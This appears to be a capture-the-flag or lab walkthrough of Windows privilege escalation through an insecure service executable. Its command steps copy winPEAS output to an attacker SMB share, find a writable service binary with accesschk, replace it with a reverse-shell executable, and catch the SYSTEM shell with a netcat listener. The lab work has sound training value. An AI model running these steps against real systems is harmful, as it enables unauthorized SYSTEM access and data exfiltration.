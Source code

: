 1x4 Service - Insecure Service Executable

## Service - Insecure Service Executable

```bash
.\winPEASany.exe ansi quiet servicesinfo > wpeas_services_op.txt
copy C:\PrivEsc\wpeas_services_op.txt \\10.9.4.127\kali\wpeas_services_op.txt
cat wpeas_services_op.txt
```
Identified 1 service mis-configuration

![2776bbe04300e594faf70903b244e6cf.png](../_resources/d21a815d71ad46ed9e03d2117ec88e37.png)

```bash
sc qc filepermsvc
```

![38a212ac759b73c19bbb7b244bffe45b.png](../_resources/72672bcacf7a4331b4b687405105964f.png)

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![bcdd9f485b6bc3c2cc8413358a52e9ea.png](../_resources/63910ff531f14cc683862f82c2dd2f19.png)

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

![49ac77b9800dfba1c0f5239aa7a78f90.png](../_resources/9689801096f5479c9ce2aaef96eb4b5d.png)

```bash
sudo nc -nvlp 53
net start filepermsvc
```

![7564198c69e7cc276ac6de947e35a4fb.png](../_resources/edaf1424715c465abf1d5043f4e8b438.png)

**Got the system**

![299008897dc7dfe9587362477832ff65.png](../_resources/d0a839ba79ed4e308e594802fa0567b0.png)
